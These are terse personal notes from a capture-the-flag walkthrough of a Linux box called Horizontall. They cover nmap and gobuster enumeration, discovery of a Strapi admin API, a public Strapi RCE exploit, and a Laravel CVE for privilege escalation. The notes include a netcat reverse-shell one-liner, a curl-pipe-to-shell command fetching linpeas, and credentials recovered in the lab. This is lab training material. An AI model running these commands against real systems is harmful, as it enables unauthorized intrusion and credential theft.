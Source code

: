Box Info
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned:: SSH, nginx,

**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See ![strapi_version](Screenshots/strapi_verison_find.png)
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see ![broken shell](Screenshots/strapi_exploit_broken_shell.png)
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see ![creds](Screenshots/strapi_exploit_broken_shell.png)
 + File upload present in admin portal.
   + try to upload reverse shell::
   1)`$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 1337 >/tmp/f` see ![Shell](Screenshots/strapi_shell.png)
   2) `nc -lnvp <lister port> :: $whoami strapi` 
   3) /home/developer/user.txt

Root::
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: 

+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see ![horizontal_ports](Screenshots/linpeas_ports_horizontall.png)
```
UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit
    exploit: CVE-2021-3129_exploit
```
TODO::
import requests:
no module requests available 

```
```

**References::
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)